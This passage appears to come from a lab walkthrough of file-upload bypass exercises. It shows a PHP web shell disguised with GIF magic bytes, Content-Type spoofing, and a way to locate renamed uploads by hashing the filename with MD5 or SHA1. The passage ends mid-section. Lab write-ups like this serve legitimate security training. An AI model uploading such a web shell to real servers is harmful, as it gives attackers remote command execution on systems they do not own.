 Then we will find the same problem as in *Upload 21* and is that we must modify the *Content-Type* to have value *image/gif*.

Finally we will modify the *file.php* including the following:

```php
GIF8;

<?php
    system($_GET['cmd']);
?>
```

This is usually the first bytes of *.gif* files (*Magic Numbers*) so the file is detected as if it were a *GIF*.

Many web services base the detection of files on their first bytes.

## Upload 31

In this case we can only upload *.jpeg* and *.gif* files.

When we try to upload the *file.php* it tells us that it has been uploaded correctly and shows us a *successful GIF*.

If we try to find the file we realize that it does not exist, this is probably because they must have made some kind of treatment and no longer has that name.

If we look at the source code of the *successful GIF* we see that it has a name with a length of *32 characters*, this is usually *MD5* so maybe the uploaded files are being transformed into *MD5* to prevent the attacker from knowing the filename. Let's try to convert the name of our file to *MD5*:

```bash
echo -n "file" | md5sum
```

If we concatenate the resulting hash to the *.php* extension and search for it on the server this time we will find it.

## Upload 33

As in *Upload 31*, here we can also upload only *.jpeg* and *.gif* files.

The case is exactly the same as above only this time we must obtain the *MD5* hash of the entire string and then concatenate it to the *.php* extension:

```bash
echo -n "file.php" | md5sum
```

## Upload 35

As in the previous cases, here we can also upload only *.jpeg* and *.gif* files.

The difference with the previous exercises is that, in this case, the *successful GIF* has a length of *40 characters*, so we believe that this time it is *SHA1* hashed. We can try the two options we have seen in the two previous exercises to guess the file name:
